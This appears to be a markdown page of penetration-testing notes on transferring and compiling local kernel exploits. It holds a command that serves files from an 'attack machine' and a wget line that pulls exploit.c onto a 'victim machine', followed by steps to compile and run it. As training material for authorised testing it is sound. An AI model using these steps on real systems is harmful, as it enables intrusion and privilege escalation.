 # Working with exploits
This section is mostly about local kernel exploits, because they're annoying. Remote python exploits are usually point-and-shoot and web exploits are covered in (exploitation/web-application/README.md).

## Transferring exploits
The quickest way to transfer an exploit is to create a folder for your exploits and expose it with Python's webserver:
```
python -m SimpleHTTPServer 80
```
The port defaults to 8000 but 80 and 443 are usually accessible. Make sure your port choice doesn't conflict with your shell. 

To download files to the victim machine:
```
wget http://[attack machine]/exploit.c
```
Make sure you are in a writable directory,`/tmp/` is usually reliable.

## Compiling exploits
First, the usual warning about randomly downloading exploits from the internet: watch out for backdoors. [Exploit-DB](https://www.exploit-db.com/) is reliable.

Second, always read the exploit comments carefully:

* Compiler options to use
* Architecture of the victim machine (32-bit or 64-bit)
* Steps to complete on the victim machine
* Code modifications

Third, if you get error messages during compilation or runtime, google them. Usually this is because the binary was compiled on the attack machine and there are quirks in architecture that can be solved by modifying compile options.

### Basic technique
The compile command looks like this:
```
gcc filename.c -o executablename
```
Before you can run it, you'll need to transfer it to the victim machine and give it the right permissions:
```
chmod u+x executablename
```

### Compiling 32-bit exploits on a 64-bit machine
If a C compiler is missing or inaccessible on your victim machine, you can compile the exploits on your Kali machine but you need some extra libraries on Kali:
```
apt-get install gcc-multilib
apt-get install g++-multilib
```
You will also need to add the `-m32` flag to your compile command.

